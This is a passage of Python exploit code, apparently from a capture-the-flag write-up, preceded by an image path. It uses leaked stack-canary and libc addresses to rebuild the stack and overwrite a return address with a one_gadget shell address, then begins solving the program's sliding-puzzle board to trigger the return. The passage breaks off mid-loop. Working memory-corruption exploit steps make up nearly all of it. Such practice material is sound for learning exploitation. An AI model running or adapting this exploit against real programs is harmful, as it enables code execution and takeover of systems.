 ```python
    one_gadget = libc.address+0x4526a
    print "canary: %x" % canary
    print "libc_leak: %x" % libc_leak
    #print "pie_leak: %x" % pie_leak
    #print "stack_leak: %x" % stack_leak
    print "libc_base: %x" % libc.address
    print "one_gadget: %x" % one_gadget

    # nrOfMoves is messed up, so let's reset it.
    for i in range(0x200):
        p.sendlineafter("> ", "u")

    # Write canary and things back
    write_word(0x1)
    write_word(canary)
    write_word(libc_leak) # Unneccesary, might as well be any value 
    for i in range(6):
        write_word(0x0)

    # Overwrite ret_addr
    write_word(one_gadget)

    #constraints:
    #  [rsp+0x30] == NULL
    for i in range(40):
        write_word(0x0)

    # >>>>>>>>>>>>>>>>> Solve puzzle <<<<<<<<<<<<<<<<<<<<<<
    def read_config():
        config = []
        for i in range(4):
            config.append(list(p.recvline()[:-1]))
        return config

    current = read_config()
    print("current: {}".format(current))
    board = []
    for c in current:
        board.append(list(c))
    print(board)

    board2 = []
    for b in board:
        print(b)
        tmp = []
        for c in b:
            num = format("{:02d}".format(ord(c) - ord('A')))
            tmp.append(num)
        board2.append(tmp)

    pb(board)
    pb(board2)
    board = board2
    orig = deepcopy(board)
    moves = f(orig)

    solve = []
    for faen, move in enumerate(moves):
        i = int(move[1:])
        d = move[0]
        cmd = ""
        if d in "UD": # column
            cmd = "c{}{}".format(i, d.lower())
```